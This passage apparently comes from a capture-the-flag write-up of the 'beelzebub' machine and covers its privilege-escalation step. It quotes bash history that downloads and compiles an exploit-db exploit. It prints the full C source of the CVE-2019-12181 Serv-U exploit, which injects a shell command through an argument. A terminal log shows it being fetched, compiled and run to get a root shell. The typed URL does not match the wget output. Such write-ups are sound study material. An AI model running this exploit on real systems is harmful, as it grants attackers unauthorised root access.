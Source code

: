 ### Privilege Escalation

Checking with the user ./bach_history something happned in the history which is worth taking a look, looks like a exploit was downloaded checking with online with it’s code reveals it’s was a CVE-2019-12181 Serv-U 15.1.6 Privilege Escalation - A privilege escalation vulnerability exists in SolarWinds Serv-U before 15.1.7 for Linux.

```bash
## history we found on ./bash_history
wget https://www.exploit-db.com/download/47009
clear
ls
clear
mv 47009 ./exploit.c
gcc exploit.c -o exploit
./exploit 
```

Lets download that file run it for privilege escalation and it’s works as expected we gained Root access!

```bash
krampus@beelzebub:~$ wget https://asdfasdf.exploit-db.com/download/47009 -O file.c
--2025-07-02 19:52:22--  https://www.exploit-db.com/download/47009
Resolving www.exploit-db.com (www.exploit-db.com)... 192.124.249.13
Connecting to www.exploit-db.com (www.exploit-db.com)|192.124.249.13|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 619 [application/txt]
Saving to: ‘file.c’

file.c                        100%[==============================================>]     619  --.-KB/s    in 0s      

2025-07-02 19:52:23 (68.1 MB/s) - ‘file.c’ saved [619/619]

krampus@beelzebub:~$ cat file.c
/*

CVE-2019-12181 Serv-U 15.1.6 Privilege Escalation 

vulnerability found by:
Guy Levin (@va_start - twitter.com/va_start) https://blog.vastart.dev

to compile and run:
gcc servu-pe-cve-2019-12181.c -o pe && ./pe

*/

#include <stdio.h>
#include <unistd.h>
#include <errno.h>

int main()
{       
    char *vuln_args[] = {"\" ; id; echo 'opening root shell' ; /bin/sh; \"", "-prepareinstallation", NULL};
    int ret_val = execv("/usr/local/Serv-U/Serv-U", vuln_args);
    // if execv is successful, we won't reach here
    printf("ret val: %d errno: %d\n", ret_val, errno);
    return errno;
}krampus@beelzebub:~$ mv file.c servu-pe-cve-2019-12181.c
krampus@beelzebub:~$ gcc servu-pe-cve-2019-12181.c -o pe && ./pe
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),116(lpadmin),126(sambashare),1000(krampus)
opening root shell
```